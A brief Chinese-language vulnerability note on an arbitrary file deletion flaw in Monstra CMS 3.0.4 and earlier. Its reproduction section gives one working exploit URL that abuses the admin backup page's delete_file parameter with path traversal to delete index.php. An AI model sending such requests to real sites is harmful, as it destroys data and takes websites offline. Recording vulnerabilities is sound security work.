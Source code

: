 # Monstra CMS 任意文件删除漏洞

## 一、漏洞简介

慎用

## 二、漏洞影响

Monstra CMS <= 3.0.4

## 三、复现过程

```html
http://www.0-sec.org/admin/index.php?id=backup&delete_file=/.......//./.......//./index.php&token=f62369587a94433bb2c3c00264e8705171c6189f
```
